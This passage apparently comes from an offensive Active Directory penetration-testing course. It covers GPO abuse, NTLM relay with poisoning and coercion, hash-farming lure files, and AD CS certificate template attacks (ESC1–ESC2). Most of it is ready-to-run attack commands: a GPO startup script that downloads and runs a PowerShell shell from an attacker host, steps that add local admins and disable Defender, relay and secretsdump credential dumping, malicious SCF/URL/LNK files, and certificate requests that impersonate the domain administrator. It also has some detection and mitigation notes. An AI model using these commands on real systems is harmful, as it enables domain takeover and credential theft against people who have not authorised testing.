# Using SharpGPOAbuse to add an immediate scheduled task
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup administrators attacker /add" --GPOName "Vulnerable GPO"
# Force a Group Policy refresh on the target
gpupdate /forceComputer Startup Scripts
Startup scripts execute when a computer boots, running as SYSTEM. Adding a malicious script to a GPO's startup scripts achieves code execution on all computers in the linked OU after the next reboot.
# Add a startup script via SharpGPOAbuse
SharpGPOAbuse.exe --AddComputerScript --ScriptName "update.bat" --ScriptContents "powershell -ep bypass -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')" --GPOName "Vulnerable GPO"Restricted Groups
Restricted Groups policy controls local group membership. By modifying a GPO's Restricted Groups settings, an attacker can add a controlled user to the local Administrators group on all affected computers.
# Add a user to local Administrators via Restricted Groups
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "attacker" --GPOName "Vulnerable GPO"Registry Modification
GPOs can push registry modifications to target computers. An attacker can use this to disable security features, configure autoruns, or modify service configurations.
# Example: Disable Windows Defender via GPO registry preference
# Path: HKLM\SOFTWARE\Policies\Microsoft\Windows Defender
# Value: DisableAntiSpyware = 1
# Or add a Run key for persistence
# Path: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
# Value: Backdoor = "C:\Windows\Temp\payload.exe"SharpGPOAbuse
SharpGPOAbuse is a C# tool that automates GPO modification for common attack scenarios.
| Flag | Action |
|---|---|
--AddComputerTask | Immediate Scheduled Task (computer context, runs as SYSTEM) |
--AddUserTask | Immediate Scheduled Task (user context) |
--AddComputerScript | Startup script (runs at boot as SYSTEM) |
--AddUserScript | Logon script (runs at user logon) |
--AddLocalAdmin | Add user to local Administrators via Restricted Groups |
--AddNewRights | Add user rights assignment (e.g., SeDebugPrivilege) |
pyGPOAbuse
pyGPOAbuse provides equivalent functionality from Linux.
# Add an immediate scheduled task from Linux
python3 pygpoabuse.py corp.local/attacker:'Password123' -gpo-id "AB12CD34-EF56-7890-AB12-CD34EF567890" -command "net localgroup administrators attacker /add" -taskname "Update" -f
# Add a user to local Administrators
python3 pygpoabuse.py corp.local/attacker:'Password123' -gpo-id "AB12CD34-EF56-7890-AB12-CD34EF567890" -localadmin -useraccount attacker -fMethodology
- Enumerate GPOs with writable permissions:
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|GenericAll|GenericWrite" -and $_.SecurityIdentifier -match "S-1-5-21-.*-\d{4,}$" } | Select-Object ObjectDN, ActiveDirectoryRights, SecurityIdentifier - Add an Immediate Scheduled Task to push code execution as SYSTEM:
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup administrators attacker /add" --GPOName "Vulnerable GPO" - Alternative: add a startup script for execution at next reboot:
SharpGPOAbuse.exe --AddComputerScript --ScriptName "update.bat" --ScriptContents "powershell -ep bypass -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')" --GPOName "Vulnerable GPO" - Alternative: add a user to local Administrators via Restricted Groups:
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "attacker" --GPOName "Vulnerable GPO" - Force a Group Policy refresh on the target:
gpupdate /force - Linux alternative using pyGPOAbuse:
python3 pygpoabuse.py corp.local/attacker:'Password123' -gpo-id "AB12CD34-EF56-7890-AB12-CD34EF567890" -command "net localgroup administrators attacker /add" -taskname "Update" -f
8.5 Detection and Mitigation
Advanced DACL attacks leave traces across multiple event logs. Comprehensive monitoring requires correlation between Directory Service Changes, Kerberos events, and GPO activity.
| Attack | Event ID | Detection Focus |
|---|---|---|
| Shadow Credentials | 5136 | Modifications to msDS-KeyCredentialLink; PKINIT (pre-auth type 16) from unusual accounts |
| Logon Scripts | 5136 | scriptPath attribute changes pointing to non-NETLOGON paths |
| SPN Jacking | 5136, 4769 | servicePrincipalName additions followed by TGS requests for the same SPN |
| NoPAC | 4741, 4742 | Machine account creation followed by sAMAccountName modification |
| GPO Abuse | 5136, 4688 | GPO modifications outside change windows; scheduled task and script execution from GPO paths |
Key mitigations:
- Least privilege: audit and remove unnecessary write permissions on sensitive attributes (msDS-KeyCredentialLink, scriptPath, servicePrincipalName, sAMAccountName)
- MachineAccountQuota = 0: prevent standard users from creating machine accounts
- GPO audit: restrict GPO modification rights to dedicated admin groups; enable Advanced Audit Policy for Directory Service Changes
- Patch management: apply NoPAC patches (KB5008102, KB5008380) promptly
- Protected Users: enroll sensitive accounts in the Protected Users group to block NTLM and enforce Kerberos with AES
9. NTLM Relay Attacks
NTLM relay attacks intercept an NTLM authentication attempt and forward it to a different service, allowing the attacker to act as the victim on that service. Unlike hash capture (where the attacker cracks the hash offline), relay attacks use the live authentication session and do not require knowing the victim's password. This module covers the NTLM protocol, relay mechanics, poisoning techniques, and advanced relay scenarios including cross-protocol attacks.
9.1 NTLM Authentication Protocol
NTLM (NT LAN Manager) is a challenge-response authentication protocol used when Kerberos is unavailable (e.g., when the target is specified by IP address rather than hostname, or when no Active Directory trust path exists). NTLM operates in three message exchanges:
- NEGOTIATE (Type 1): The client announces supported NTLM features and flags
- CHALLENGE (Type 2): The server responds with a random 8-byte challenge (nonce) and its own feature flags
- AUTHENTICATE (Type 3): The client responds with the challenge encrypted using a derivative of the user's NT hash, along with username and domain information

Two versions exist:
| Version | Hash Type | Security | Cracking Difficulty |
|---|---|---|---|
| NTLMv1 | NetNTLMv1 | Weak; uses DES-based challenge response; vulnerable to rainbow tables | Low (can be converted to NTLM hash via crack.sh) |
| NTLMv2 | NetNTLMv2 | Stronger; HMAC-MD5 with client nonce and timestamp | Higher (requires dictionary/brute force) |

In domain environments, the server forwards the challenge and response to the DC for validation (pass-through authentication). For local accounts, the server validates directly against the local SAM database.
9.2 NTLM Relay Fundamentals
In an NTLM relay attack, the attacker positions themselves between a client and a server. When the client initiates NTLM authentication to the attacker (thinking it is a legitimate server), the attacker forwards the NEGOTIATE, CHALLENGE, and AUTHENTICATE messages to the actual target. The result is an authenticated session on the target as the victim user.
9.2.1 The NTLM Relay Attack
In an NTLM relay attack, the attacker positions themselves between a client and a server. When the client initiates NTLM authentication to the attacker (thinking it is a legitimate server), the attacker forwards the NEGOTIATE, CHALLENGE, and AUTHENTICATE messages to the actual target. The result is an authenticated session on the target as the victim user.
Key conditions for a successful relay:
- No SMB signing on the target (for SMB relay). Signing binds the authentication to the specific session, preventing relay.
- No LDAP signing/channel binding on the target (for LDAP relay)
- The victim must have privileges on the target (e.g., local admin for SMB command execution, or write access for LDAP modifications)
- The relay must be cross-protocol compatible or to a different host (same-host relay to SMB is blocked by default since MS08-068)
# Check which hosts have SMB signing disabled
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt
# Alternative with nmap
nmap --script smb2-security-mode -p 445 10.10.10.0/249.2.2 Pre-relay: Poisoning and Spoofing
Before relaying, the attacker must coerce or intercept an NTLM authentication attempt. Several techniques trigger victims to authenticate to an attacker-controlled host.
LLMNR, NBT-NS, and mDNS Poisoning (Responder)
When DNS resolution fails, Windows falls back to broadcast protocols: Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Service (NBT-NS), and multicast DNS (mDNS). Responder answers these broadcasts, directing victims to authenticate against the attacker.
# Run Responder in analyze mode first to observe traffic
sudo responder -I eth0 -A
# Run Responder to capture hashes
sudo responder -I eth0 -wFb
# Run Responder for relay (disable SMB and HTTP servers so ntlmrelayx can use those ports)
sudo responder -I eth0 -wFb --disable-ess -vResponder.conf: set SMB = Off and HTTP = Off) so they do not conflict with ntlmrelayx listeners.ARP Spoofing
ARP spoofing poisons the ARP cache on the local subnet, redirecting traffic through the attacker's machine. This enables interception of NTLM authentication attempts on the network segment.
# ARP spoof using arpspoof (part of dsniff)
sudo arpspoof -i eth0 -t 10.10.10.50 10.10.10.1
# Or with bettercap
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 10.10.10.50; arp.spoof on"DHCPv6 Poisoning (mitm6)
mitm6 exploits the fact that Windows prefers IPv6 over IPv4. It responds to DHCPv6 requests, setting the attacker as the default DNS server for IPv6. Subsequent DNS queries go through the attacker, who can redirect them to trigger NTLM authentication.
# Run mitm6 targeting a specific domain
sudo mitm6 -d corp.local
# Combine with ntlmrelayx for LDAP relay
sudo ntlmrelayx.py -6 -t ldaps://dc01.corp.local -wh fakewpad.corp.local -l lootdirWebDAV Requests
WebDAV (Web Distributed Authoring and Versioning) is enabled by default on many Windows systems via the WebClient service. When a UNC path with a non-standard port or an HTTP URL is accessed, Windows uses WebDAV, which sends NTLM authentication over HTTP. This is significant because HTTP-based NTLM can be relayed to LDAP (unlike SMB-based NTLM when EPA is enabled).
# Check if WebClient service is running on target hosts
crackmapexec smb 10.10.10.0/24 -d corp.local -u user -p 'Pass' -M webdav
# Trigger WebDAV authentication
# Use @port syntax in UNC path: \\attacker@8080\share\fileMethodology
- Enumerate hosts with SMB signing disabled:
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt - Confirm SMB signing status with nmap:
nmap --script smb2-security-mode -p 445 10.10.10.0/24 - Run Responder in analyze mode to observe broadcast traffic:
sudo responder -I eth0 -A - Configure Responder for relay (disable built-in SMB/HTTP in Responder.conf), then start:
sudo responder -I eth0 -wFb --disable-ess -v - Run mitm6 for DHCPv6 poisoning combined with LDAP relay:
sudo mitm6 -d corp.local sudo ntlmrelayx.py -6 -t ldaps://dc01.corp.local -wh fakewpad.corp.local -l lootdir - Check for WebClient service on target hosts (WebDAV availability):
crackmapexec smb 10.10.10.0/24 -d corp.local -u user -p 'Pass' -M webdav
9.3 SMB Relay and Advanced Cases
SMB relay is the classic NTLM relay scenario. The attacker relays captured NTLM authentication to an SMB service on a target where signing is not required.
9.3.1 NTLM Relay over SMB Attacks
SMB relay is the classic NTLM relay scenario. The attacker relays captured NTLM authentication to an SMB service on a target where signing is not required.
ntlmrelayx.py Setup
# Basic ntlmrelayx setup with a target list
sudo ntlmrelayx.py -tf targets.txt -smb2support
# With specific target
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2supportRelaying to SMB (Command Execution)
If the relayed user has local administrator privileges on the target, ntlmrelayx can execute commands via the SMB service.
# Execute a command on successful relay
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support -c "whoami"
# Execute a PowerShell payload
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support -c "powershell -ep bypass -e <base64_payload>"Relaying to SMB (Secretsdump)
# Dump SAM, LSA secrets, and cached credentials on relay
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support --dump-lsa --dump-samSMB Signing Requirements
SMB signing protects against relay by cryptographically binding authentication to the session. Signing status:
| System | Default Signing |
|---|---|
| Domain Controllers | Required (cannot relay to DCs via SMB) |
| Servers (non-DC) | Supported but not required |
| Workstations | Supported but not required |
9.3.2 NTLMRelayx Advanced Use Cases
Interactive SMB Shell
# Start ntlmrelayx with interactive mode
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support -i
# Connect to the interactive shell (ntlmrelayx opens a local port)
nc 127.0.0.1 11000
# Then use SMB commands: shares, use C$, ls, get, put, etc.SOCKS Proxy
ntlmrelayx can maintain relayed sessions as SOCKS proxies, allowing tools like secretsdump.py, smbclient, or crackmapexec to use the authenticated session.
# Start ntlmrelayx with SOCKS support
sudo ntlmrelayx.py -tf targets.txt -smb2support -socks
# Use the SOCKS proxy with proxychains
# Edit /etc/proxychains4.conf: socks4 127.0.0.1 1080
proxychains secretsdump.py -no-pass corp.local/admin@10.10.10.50
proxychains smbclient.py -no-pass corp.local/admin@10.10.10.50LDAP Relay
Relaying to LDAP allows the attacker to perform directory modifications (add users, modify ACLs, configure RBCD) if the relayed account has sufficient privileges.
# Relay to LDAP and delegate access for RBCD
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access
# Relay to LDAPS with escalation via ACL abuse
sudo ntlmrelayx.py -t ldaps://dc01.corp.local --escalate-user attackerShadow Credentials via Relay
Combining NTLM relay with Shadow Credentials allows the attacker to add a key credential to a computer account, then use PKINIT to obtain a TGT.
# Relay to LDAP and set shadow credentials on the target machine account
sudo ntlmrelayx.py -t ldap://dc01.corp.local --shadow-credentials --shadow-target WS01$Methodology
- Start ntlmrelayx for basic SMB relay with a target list:
sudo ntlmrelayx.py -tf targets.txt -smb2support - Relay for command execution (requires relayed user to be local admin on target):
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support -c "whoami" - Relay for credential dumping (SAM and LSA secrets):
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support --dump-lsa --dump-sam - Use interactive SMB shell mode, then connect via netcat:
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support -i nc 127.0.0.1 11000 - Enable SOCKS proxy for persistent relay sessions:
sudo ntlmrelayx.py -tf targets.txt -smb2support -socks proxychains secretsdump.py -no-pass corp.local/admin@10.10.10.50 - Relay to LDAP for RBCD delegation:
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access - Relay to LDAP for Shadow Credentials:
sudo ntlmrelayx.py -t ldap://dc01.corp.local --shadow-credentials --shadow-target WS01$
9.4 Cross-protocol and Coercion Attacks
NTLM authentication can be relayed across different protocols because the challenge-response mechanism is protocol-independent. The attacker receives NTLM authentication on one protocol and forwards it to a service using a different protocol.
9.4.1 NTLM Cross-protocol Relay Attacks
NTLM authentication can be relayed across different protocols because the challenge-response mechanism is protocol-independent. The attacker receives NTLM authentication on one protocol and forwards it to a service using a different protocol.
HTTP to SMB
Capture NTLM authentication over HTTP (e.g., via WPAD, WebDAV, or a phishing link) and relay to SMB for command execution or credential dumping.
# Capture HTTP NTLM and relay to SMB
sudo ntlmrelayx.py -t smb://10.10.10.50 -smb2support
# Trigger HTTP auth via a link: http://attacker/testHTTP to LDAP
HTTP-based NTLM authentication can be relayed to LDAP even when LDAP channel binding is enforced (since HTTP does not carry channel binding information). This makes HTTP-to-LDAP a particularly valuable relay path.
# Relay HTTP auth to LDAP for delegation attack
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-accessSMB to HTTP
Relay SMB-based NTLM to HTTP services (e.g., Exchange Web Services, AD CS web enrollment). Useful when SMB signing blocks SMB-to-SMB relay.
# Relay SMB auth to ADCS HTTP enrollment (ESC8)
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainControllerWebDAV to LDAP
WebDAV authentication sends NTLM over HTTP, which can be relayed to LDAP. This is the foundation for attacks like PetitPotam + RBCD delegation via LDAP.
# Coerce WebDAV authentication and relay to LDAP
# Step 1: Start ntlmrelayx targeting LDAP
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access --escalate-user attacker
# Step 2: Coerce authentication via PetitPotam using the WebDAV port trick
python3 PetitPotam.py -d corp.local -u user -p 'Pass' attacker@8080/test 10.10.10.50DCOM/RPC to LDAP
Some DCOM/RPC calls trigger NTLM authentication that can be relayed. KrbRelayUp leverages local DCOM calls for privilege escalation by relaying to LDAP on the local DC.
9.4.2 Farming Hashes
Hash farming places files on network shares or sends documents that, when accessed by a victim, trigger an automatic NTLM authentication attempt to an attacker-controlled host. These techniques are passive; the attacker places the lure and waits.

SCF Files
Shell Command Files (.scf) are processed by Windows Explorer when browsing a directory. The icon path can point to a UNC path, triggering NTLM authentication.
# Create a malicious SCF file
cat > @harvest.scf << 'ENDSCF'
[Shell]
Command=2
IconFile=\\attacker-ip\share\icon.ico
[Taskbar]
Command=ToggleDesktop
ENDSCF
# Place on a writable share and wait for a user to browse the directoryURL Files
Internet Shortcut files (.url) can reference a UNC path for their icon, triggering NTLM authentication when rendered by Explorer.
# Create a malicious URL file
cat > @harvest.url << 'ENDURL'
[InternetShortcut]
URL=http://attacker-ip
IconIndex=0
IconFile=\\attacker-ip\share\icon.ico
ENDURLDesktop.ini
A desktop.ini file in a folder customizes its icon and display properties. Pointing the icon to a UNC path triggers authentication when the folder is browsed.
# Create a malicious desktop.ini
cat > desktop.ini << 'ENDINI'
[.ShellClassInfo]
IconResource=\\attacker-ip\share\icon.ico,0
ENDINI
# Set the folder as a system folder (required for desktop.ini to be processed)
attrib +s target_folderShortcut Files (.lnk)
Windows shortcut files can reference a UNC path for their icon. When rendered in Explorer, the system fetches the icon, sending NTLM credentials.
# Create a malicious LNK file via PowerShell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\share\@harvest.lnk")
$lnk.TargetPath = "\\attacker-ip\share"
$lnk.IconLocation = "\\attacker-ip\share\icon.ico, 0"
$lnk.Save()Office Documents
Microsoft Office documents can embed UNC references that trigger NTLM authentication when opened. Common techniques:
- Linked images: Insert an image with a UNC path source
- Template injection: Reference a remote .dotx template via UNC
- OLE objects: Embed an OLE link to a UNC path
- Excel web queries: .iqy files that point to UNC paths
9.4.3 Authentication Coercion
Authentication coercion forces a target machine (often a domain controller) to initiate NTLM authentication to an attacker-controlled host. Unlike hash farming (which relies on user interaction), coercion uses Windows RPC interfaces to trigger machine account authentication.
PrinterBug (MS-RPRN)
The Print Spooler service (MS-RPRN) exposes the RpcRemoteFindFirstPrinterChangeNotificationEx method, which causes the target to authenticate back to a specified host. This works against any machine running the Spooler service, including domain controllers.
# Trigger the Printer Bug from Linux
python3 printerbug.py corp.local/user:'Password123'@dc01.corp.local attacker-ip
# Using SpoolSample from Windows
SpoolSample.exe dc01.corp.local attacker-ip
# Using dementor.py
python3 dementor.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.localPetitPotam (MS-EFSR)
PetitPotam abuses the Encrypting File System Remote (MS-EFSR) protocol to coerce authentication. Unlike PrinterBug, it works even on systems where the Print Spooler is disabled. Unauthenticated coercion was patched but authenticated coercion still works.
# PetitPotam (authenticated)
python3 PetitPotam.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.local
# PetitPotam (unauthenticated, pre-patch)
python3 PetitPotam.py attacker-ip dc01.corp.localDFSCoerce
DFSCoerce uses the Distributed File System (MS-DFSNM) RPC interface to coerce NTLM authentication from a target.
# DFSCoerce
python3 dfscoerce.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.localCoercer Tool
Coercer is a consolidated tool that tests multiple coercion methods (MS-RPRN, MS-EFSR, MS-DFSNM, MS-FSRVP, and others) against a target.
# Scan for all available coercion methods
python3 coercer.py scan -t dc01.corp.local -u user -p 'Password123' -d corp.local
# Coerce authentication using all available methods
python3 coercer.py coerce -t dc01.corp.local -l attacker-ip -u user -p 'Password123' -d corp.localMethodology
- Relay HTTP-captured NTLM auth to LDAP for delegation attack:
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access - Relay SMB auth to ADCS HTTP enrollment (ESC8):
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController - Place hash-farming lure files on a writable share (SCF file):
cat > @harvest.scf << 'ENDSCF' [Shell] Command=2 IconFile=\\attacker-ip\share\icon.ico [Taskbar] Command=ToggleDesktop ENDSCF - Create a malicious .url file as an alternative lure:
cat > @harvest.url << 'ENDURL' [InternetShortcut] URL=http://attacker-ip IconIndex=0 IconFile=\\attacker-ip\share\icon.ico ENDURL - Coerce DC authentication with PetitPotam (MS-EFSR):
python3 PetitPotam.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.local - Coerce DC authentication with PrinterBug (MS-RPRN):
python3 printerbug.py corp.local/user:'Password123'@dc01.corp.local attacker-ip - Scan for all available coercion methods with Coercer:
python3 coercer.py scan -t dc01.corp.local -u user -p 'Password123' -d corp.local python3 coercer.py coerce -t dc01.corp.local -l attacker-ip -u user -p 'Password123' -d corp.local
9.5 Advanced Relay and Mitigations
KrbRelayUp is a local privilege escalation tool that combines NTLM relay with Kerberos. It works by triggering a local DCOM NTLM authentication, relaying it to LDAP on the DC to configure Resource-Based Constrained Delegation (RBCD) on the local machine account, and then using S4U2self/S4U2proxy to obtain a service ticket as a privileged user.
9.5.1 Advanced NTLM Relay Attacks Targeting Kerberos
KrbRelayUp is a local privilege escalation tool that combines NTLM relay with Kerberos. It works by triggering a local DCOM NTLM authentication, relaying it to LDAP on the DC to configure Resource-Based Constrained Delegation (RBCD) on the local machine account, and then using S4U2self/S4U2proxy to obtain a service ticket as a privileged user.
# KrbRelayUp (automated, runs on the target machine)
KrbRelayUp.exe relay -m rbcd -cls {752073A1-23F2-4396-85F0-8FDB879ED0ED}
# This performs:
# 1. Creates a machine account (or uses an existing one)
# 2. Triggers DCOM authentication to itself
# 3. Relays the NTLM auth to LDAP on the DC
# 4. Configures RBCD: allows the new machine account to delegate to the local machine
# 5. Uses S4U2self/S4U2proxy to get a service ticket as Administrator
# 6. Performs a pass-the-ticket attackKrbRelayUp also supports Shadow Credentials mode (-m shadowcred), which sets a key credential on the local machine account instead of configuring RBCD.
9.5.2 Advanced NTLM Relay Attacks Targeting AD CS
NTLM relay to AD CS HTTP enrollment endpoints (ESC8) allows an attacker to request a certificate as the relayed account. If a domain controller's machine account is coerced and relayed, the attacker obtains a DC certificate, enabling DCSync or authentication as the DC.
# Step 1: Start ntlmrelayx targeting the CA's HTTP enrollment endpoint
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# Step 2: Coerce the DC to authenticate (PetitPotam)
python3 PetitPotam.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.local
# Step 3: ntlmrelayx automatically requests a certificate as DC01$
# Output: Base64-encoded certificate for DC01$
# Step 4: Use the certificate for PKINIT
python3 gettgtpkinit.py -cert-pfx dc01.pfx -pfx-pass <pass> corp.local/dc01\$ dc01.ccache
# Step 5: DCSync with the TGT
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass dc01.corp.localMitigation for ESC8:
- Disable HTTP enrollment endpoints on the CA (use HTTPS with EPA instead)
- Enable Extended Protection for Authentication (EPA) on IIS
- Disable NTLM authentication on the CA server
- Apply security updates and restrict certificate template enrollment permissions
9.5.3 NTLM Relay Attack Summary
The following matrix summarizes NTLM relay paths, prerequisites, and outcomes:
| Source Protocol | Target Protocol | Prerequisite | Outcome |
|---|---|---|---|
| SMB | SMB | No SMB signing on target; local admin on target | Command execution, credential dump |
| SMB | LDAP | No LDAP signing; no channel binding | ACL modification, RBCD, Shadow Credentials |
| SMB | HTTP (ADCS) | HTTP enrollment enabled on CA | Certificate request as victim |
| HTTP | SMB | No SMB signing on target | Command execution, credential dump |
| HTTP | LDAP | No LDAP signing (channel binding bypassed) | ACL modification, RBCD, Shadow Credentials |
| HTTP | HTTP (ADCS) | HTTP enrollment enabled on CA | Certificate request as victim |
| WebDAV | LDAP | WebClient service running; no LDAP signing | ACL modification, RBCD |
| DCOM (local) | LDAP | KrbRelayUp scenario | Local privilege escalation via RBCD |
Key mitigations across all relay scenarios:
- Enable SMB signing on all systems (required on DCs by default; enforce on servers and workstations via GPO)
- Enforce LDAP signing and channel binding on all domain controllers (LdapServerIntegrity = 2)
- Disable NTLM where possible; use Kerberos exclusively. Apply NTLM restrictions via GPO (Network Security: Restrict NTLM)
- Enable Extended Protection for Authentication (EPA) on IIS, Exchange, and ADCS HTTP endpoints
- Disable LLMNR and NBT-NS via GPO to prevent name resolution poisoning
- Disable IPv6 if not in use to prevent DHCPv6 poisoning (mitm6)
- Patch coercion vulnerabilities: PetitPotam, PrinterBug (disable Print Spooler on DCs), DFSCoerce
- Set MachineAccountQuota to 0 to prevent KrbRelayUp-style attacks that create machine accounts for RBCD
- Monitor: Event ID 4624 (logon type 3) for unusual NTLM authentication patterns, and Event ID 8004 for NTLM audit events
Methodology
- Run KrbRelayUp for local privilege escalation via RBCD:
KrbRelayUp.exe relay -m rbcd -cls {752073A1-23F2-4396-85F0-8FDB879ED0ED} - Start ntlmrelayx targeting ADCS HTTP enrollment for ESC8:
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController - Coerce the DC to authenticate to the relay listener:
python3 PetitPotam.py -d corp.local -u user -p 'Password123' attacker-ip dc01.corp.local - Use the relayed DC certificate for PKINIT to obtain a TGT:
python3 gettgtpkinit.py -cert-pfx dc01.pfx -pfx-passcorp.local/dc01\$ dc01.ccache - DCSync with the obtained TGT:
export KRB5CCNAME=dc01.ccache secretsdump.py -k -no-pass dc01.corp.local
10. ADCS Attacks
Active Directory Certificate Services (AD CS) is a Windows Server role that provides public key infrastructure (PKI) for issuing and managing digital certificates. Misconfigurations in AD CS can grant domain-wide compromise through certificate abuse, often with fewer detection signatures than traditional credential attacks.
10.1 ADCS Fundamentals
AD CS implements a PKI that issues X.509 certificates used for authentication, encryption, and code signing within Active Directory environments. The core components:
| Component | Role |
|---|---|
| Certificate Authority (CA) | Issues and revokes certificates; can be Enterprise (AD-integrated) or Standalone |
| Certificate Templates | Blueprints defining certificate purpose, validity, enrollment permissions, and cryptographic settings |
| Enrollment Services | Web enrollment (HTTP), RPC (ICPR), and DCOM interfaces for requesting certificates |
| Extended Key Usages (EKUs) | OIDs that define what a certificate can be used for (Client Authentication, Smart Card Logon, Any Purpose, etc.) |
| Certificate Revocation List (CRL) | Published list of revoked certificates checked during validation |
Enterprise CAs are domain-joined and publish templates to Active Directory. When a principal enrolls in a template, the CA issues a certificate based on the template's configuration. The critical EKUs for authentication abuse are:
- Client Authentication (OID 1.3.6.1.5.5.7.3.2) allows the certificate holder to authenticate to services
- Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2) enables certificate-based domain logon via PKINIT
- Any Purpose (OID 2.5.29.37.0) permits the certificate for any use, including authentication
- No EKU / SubCA certificates are unrestricted and can be used for any purpose
10.2 ADCS Enumeration
Identifying Enterprise CAs and vulnerable certificate templates is the first step. Several tools automate this process.
Certify (Windows):
# Find all Enterprise CAs
Certify.exe cas
# Find vulnerable certificate templates
Certify.exe find /vulnerable
# Find templates with specific EKU
Certify.exe find /clientauth
# Enumerate templates the current user can enroll in
Certify.exe find /enrolleeSuppliesSubjectCertipy (Linux):
# Enumerate all templates and CAs
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10
# Find vulnerable templates only
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -vulnerable
# Output as BloodHound-compatible JSON
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -old-bloodhoundCertutil (built-in):
# List Enterprise CAs
certutil -config - -ping
# Dump CA configuration
certutil -TCAInfo
# List certificate templates published by a CA
certutil -catemplates
Methodology
- Enumerate all Enterprise CAs and published templates with Certify:
Certify.exe cas Certify.exe find /vulnerable - Run Certipy from Linux to enumerate vulnerable templates:
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -vulnerable - Export BloodHound-compatible JSON for ADCS attack path analysis:
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -old-bloodhound - Find templates with Enrollee Supplies Subject flag:
Certify.exe find /enrolleeSuppliesSubject - Verify CA availability and list published templates with certutil:
certutil -config - -ping certutil -catemplates
10.3 Template Misconfiguration Attacks (ESC1-4)
ESC1 is the most common ADCS misconfiguration. It occurs when a certificate template allows the enrollee to specify an arbitrary Subject Alternative Name (SAN), combined with an EKU that permits authentication.
10.3.1 ESC1: Misconfigured Certificate Template (Enrollee Supplies Subject)
ESC1 is the most common ADCS misconfiguration. It occurs when a certificate template allows the enrollee to specify an arbitrary Subject Alternative Name (SAN), combined with an EKU that permits authentication.
Vulnerability Conditions
All four conditions must be met simultaneously:
- The Enterprise CA grants enrollment rights to low-privileged users
- Manager approval is disabled (no CA certificate manager must approve the request)
- The template has the
CT_FLAG_ENROLLEE_SUPPLIES_SUBJECTflag set, allowing the requester to specify the SAN - The template has an EKU that enables authentication (Client Authentication, Smart Card Logon, PKINIT, or Any Purpose)
Exploitation with Certify
# Request a certificate as Domain Admin
Certify.exe request /ca:dc01.corp.local\corp-DC01-CA /template:VulnerableTemplate /altname:administrator
# Convert PEM to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# Authenticate with Rubeus using the certificate
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /password:password /pttExploitation with Certipy
# Request certificate with arbitrary SAN
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template VulnerableTemplate -upn administrator@corp.local
# Authenticate using the certificate
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10Requesting as Another User
The SAN field accepts any UPN value. An attacker with enrollment rights can request a certificate for any domain principal, including Domain Admins, service accounts, or computer accounts. The CA does not validate whether the requester is authorized to impersonate the specified SAN principal.
# Request as a service account
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template VulnerableTemplate -upn svc_sql@corp.local
# Request as a machine account
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template VulnerableTemplate -dns dc01.corp.local10.3.2 ESC2: Any Purpose EKU or No EKU
Templates configured with the Any Purpose EKU or with no EKU at all can be used for client authentication. Templates with the SubCA EKU are even more dangerous because they allow issuing subordinate CA certificates.
The exploitation is identical to ESC1 if the template also has CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT. If it does not, the certificate is still useful for authentication as the enrolling user.
# Find Any Purpose or No EKU templates
Certify.exe find /vulnerable
# Enroll in an Any Purpose template (authenticates as current user)
Certify.exe request /ca:dc01.corp.local\corp-DC01-CA /template:AnyPurposeTemplate# Certipy exploitation
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template AnyPurposeTemplate
